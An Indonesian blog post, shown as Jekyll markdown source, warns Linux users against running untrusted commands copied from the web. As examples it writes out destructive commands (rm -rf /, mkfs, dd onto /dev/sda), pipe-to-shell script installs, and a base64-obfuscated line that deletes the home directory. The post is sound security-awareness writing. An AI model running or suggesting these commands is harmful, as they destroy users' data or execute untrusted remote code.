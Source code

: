 ```yaml
---
layout: post
title: Jangan Sembarang Menjalankan Baris Perintah di Linux
tags: [cli]
comments: true
---
```


Komputer yang bertenaga dan sistem operasi berkeamanan ketat, akan tiada berarti jika si penggunanya adalah pribadi yang ceroboh. Manusia adalah makhluk sosial, yang mudah terpengaruh suasana hati dan lingkungan. Kerentanan inilah yang dimanfaatkan _malware_ (_malicious software_) dengan teknik _social engineering_-nya.

Kali ini kita tidak akan membahas _malware_, namun temanya masih berkaitan. Menyambung artikel [Jangan Copy Paste dari Website ke Terminal!]({{ site.baseurl }}{% post_url 2017-03-29-jangan-copy-paste-dari-website-ke-terminal %}), artikel kali ini masih bertema ajakan agar tidak ceroboh menjalankan sembarang perintah yang didapat dari dunia maya.

Ada banyak alasan kita bersukarela menjalankan perintah yang kita lihat dari forum atau situs web di komputer kita, misalnya saja karena telah letih _troubleshooting_ kerusakan atau kita percaya kepada si pemberi _command line_. Dengan kata lain, celah kerusakan ini tidak selalu karena si pengguna tidak mengerti dengan apa yang diketiknya, namun lebih cenderung sedang dalam kelengahan. 

Berikut beberapa contoh perintah yang patut diwaspadai dan jangan sembarang dijalankan:

- **Perintah yang menggunakan [_regular expression_](https://en.wikipedia.org/wiki/Regular_expression)**  
  _Regular expression is black magic_. Jika tidak bisa memahami kerja perintah yang memakai _regex_, lebih baik jangan dijalankan.
  
  ```bash
  rm -rf /
  rm -rf .
  rm -rf *
  rm -r .[^.]* 
  ```
  
- **Perintah yang berhubungan dengan sarana penyimpanan**  
  Baca berkali-kali jika Anda diminta menjalankan perintah yang berhubungan dengan partisi atau media penyimpanan lainnya.
  
  ```bash
  mkfs
  mkfs.ext3
  mkfs.apapun_yang_umumnya_nama_filesystem
  sembarang_perintah > /dev/sda
  dd if=something of=/dev/sda_atau_nama_disk_lainnya
  ``` 
  
- **Perintah yang menjalankan skrip**  
  Belum lama ini saya perlu memasang paket `nodejs` teranyar di Debian. Dengan alasan laju pengembangan `nodejs` yang sangat pesat, versi paket dalam repo Debian cenderung lambat diperbaharui, memaksa saya untuk mencari sumber lain.  
  
  Akhirnya saya menuju situs [nodejs.org](https://nodejs.org/en/download/package-manager/). Namun sungguh tak dinyana, proyek sebesar `nodejs` ternyata menyediakan cara pemasangan yang patut dipertanyakan, seperti berikut:
  
  ```bash
  curl -sL https://deb.nodesource.com/setup_7.x | sudo -E bash -
  sudo apt-get install -y nodejs
  ```
  
  Beruntung, `nodejs` juga menyediakan repo tersendiri sehingga saya bisa memasangnya dengan cara yang lebih terjamin keamanannya. 
  
  Intisarinya, teliti siapa dibalik pemberi perintah dengan pola berikut:
  
  ```bash
  wget http://alamat_situs/skrip_berpotensi_membahayakan
  sh ./skrip_berpotensi_membahayakan
  ```
  
  atau 
  
  ```bash
  wget http://alamat_situs/skrip_berpotensi_membahayakan -O- | sh
  ```
  
- **Perintah yang mengandung _string_ yang telah dirubah bentuk (_encoded_)**  
  Anda bertanya di suatu forum untuk meminta saran agar sistem Linux Anda lebih gegas. Dan seseorang kemudian mengirim dan menyarankan untuk menjalankan perintah berikut:
  
  ```bash
  $(echo cm0gLXJmIH4vKg== | base64 -d)
  ```
  
  Apa yang akan Anda lakukan? Tidakkah rentetan huruf itu tampak aneh?  
  Seperti yang dicamkan di atas, jangan jalankan perintah yang tidak Anda mengerti!  
  Baris di atas sekilas tidak terlihat membahayakan, hanya `echo`. Namun SALAH BESAR! Perintah di atas sama dengan `rm -rf ~/*` yang tanpa ragu akan menghapus seluruh isi `$HOME`. Saya lebih memilih kehilangan root daripada kehilangan isi `$HOME`.
  
_So_, berhati-hatilah selalu. _Trust nobody_. Jangan malu untuk bertanya jika mendapati baris perintah yang tidak dimengerti. Jika tidak juga kunjung paham, jangan jalankan.
  
_Permios..._
